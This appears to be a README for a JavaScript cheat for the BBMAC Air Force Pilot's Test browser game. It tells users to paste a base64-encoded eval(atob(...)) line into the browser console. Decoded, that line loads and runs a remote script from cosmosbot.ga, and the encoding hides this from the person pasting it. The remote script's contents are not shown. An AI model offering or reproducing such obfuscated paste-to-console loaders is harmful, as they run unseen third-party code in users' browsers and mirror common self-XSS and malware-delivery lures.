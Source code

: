 # Air Force Pilot's Test Cheat
A JavaScript based cheat engine for the [BBMAC Air Force Pilot's Test](http://bbmac.net/game/skill_test.htm).

## Features
 - Enemies disappear on game start
 - Timer below player
 - Double click player to bring back enemies

## How to use
Open the console in developer tools when you're on [BBMAC Air Force Pilot's Test](http://bbmac.net/game/skill_test.htm) and paste the code:
`eval(atob('dmFyIHNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoJ3NjcmlwdCcpO3NjcmlwdC5zcmMgPSAiaHR0cHM6Ly9jb3Ntb3Nib3QuZ2EvY2RuL0NvbnRlbnQvaW5qZWN0LmpzIjtkb2N1bWVudC5ib2R5LmFwcGVuZChzY3JpcHQpOw=='))`

If it worked, you should see the enemies highlighted with the work 'Enemy'.
